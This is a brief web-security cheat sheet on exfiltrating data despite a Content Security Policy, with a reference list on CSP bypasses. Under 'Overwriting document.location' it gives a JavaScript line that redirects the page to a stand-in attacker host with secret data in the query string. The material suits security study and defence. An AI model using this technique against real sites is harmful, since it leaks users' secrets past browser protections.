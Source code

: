 # Data exfiltration

## Overwriting document.location

Overwriting `document.location` can be used to send data to an external server even if a CSP restricts the URLs which can be loaded. 

```javascript
document.location = `https://attacker-website.com/callback?q=${secretData}`;
```

## Using the link HTML element

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/web-application/html-injection/link" %}

# References

- [ZN2018: CSP by Ivan Chalykin](https://github.com/0xn3va/cheat-sheets/blob/master/Web%20Application/Content%20Security%20Policy/materials/zn2018-csp-bypass.pdf)
- [csplite.com: Bypass of CSP](https://csplite.com/csp320)
- [W3C: Content Security Policy Level 3](https://www.w3.org/TR/CSP3)
- [Collection of CSP bypasses by Sebastian Lekies (@slekies)](http://sebastian-lekies.de/csp/bypasses.php)
